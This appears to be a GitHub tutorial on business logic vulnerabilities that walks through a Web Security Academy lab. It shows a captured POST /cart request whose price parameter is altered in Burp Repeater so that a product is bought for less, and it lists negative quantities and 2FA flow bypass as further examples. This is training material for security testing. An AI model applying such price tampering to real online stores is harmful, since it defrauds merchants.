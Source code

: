 ## Business logic vulnerabilities

Business logic vulnerabilities need manual intervention as No tool can detect these and they can vary from application to application and very hazardous. 
We have to understand application logic, application functionality, implementations, and business requirements. Whenever we intercept the request,
we have to manipulate specific parameters in the request or so to test for the business logic vulnerability


 ## Some common example of business logic:
 
 Manipulation in the product price in the request so we can purchase products in less amount during the online shopping.
 
 Manipulation in user-supplied input (too much quantity or –ve quantity) and not checked from the server-side.
 
 Manipulation in intended flow (2FA).
 
 ## 1. Manipulation in the product price in the request so we can purchase products in less amount during the online shopping.
 
 With Burp running, log in and attempt to buy the leather jacket. The order is rejected because you don't have enough store credit. 
 
 In Burp, go to "Proxy" > "HTTP history" and study the order process. Notice that when you add an item to your cart,
 the corresponding request contains a price parameter. Send the POST /cart request to Burp Repeater. 
 
 ## Request 
 
    POST /cart HTTP/1.1
    Host: 0a5d00c0038b8062c09a11d7009700cc.web-security-academy.net
    Cookie: session=VQHFrZjrndyN8kEb1ivgOD4X9YydBrGB
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 49
    Origin: https://0a5d00c0038b8062c09a11d7009700cc.web-security-academy.net
    Referer: https://0a5d00c0038b8062c09a11d7009700cc.web-security-academy.net/product?productId=1
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    productId=1&redir=PRODUCT&quantity=1&price=133700
    
 ## Note That Show Price in request 
 
     productId=1&redir=PRODUCT&quantity=1&price=133700   
     
 So Change The Price and sand the request in server, like server is accept the request, here business logic vulnerabilities
 
 
     
     
     
     
     
